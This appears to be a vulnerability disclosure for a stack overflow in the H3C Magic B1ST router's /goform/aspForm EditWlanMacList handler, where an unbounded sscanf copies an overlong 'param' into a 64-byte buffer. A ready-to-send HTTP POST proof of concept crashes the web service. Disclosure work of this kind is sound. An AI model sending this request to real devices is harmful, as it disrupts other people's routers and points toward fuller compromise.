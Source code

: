 ## Overview

> Vendor: H3C
> Product: Magic B1ST
> Version: H3C_Magic_B1STV100R012
> Type: Stack Overflow

## Vulnerability
In route`/goform/aspForm`, the value of the key `CMD` is `EditWlanMacList`, the program will go into the following handling function.



![](assets/Pasted_image_20230606204034.png)

First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v27` on the stack. In this function, the length of `param` is limited to 511 Bytes，but `v27` only have 64 Byte. Also, the parameter `%s` of `sscanf` didn't limit the copy length.

![](assets/Pasted_image_20230606164959.png)

## PoC
```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 173
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp?refresh=yes?refreshFlag=Tue%20Jun%2006%202023%2016:39:29%20GMT+0800%20(China%20Standard%20Time)
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=EditWlanMacList&GO=wan_new.asp&param=1;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;
```

## Result

the process `webs` restart

![image-20230610124122224](assets/image-20230610124122224.png)
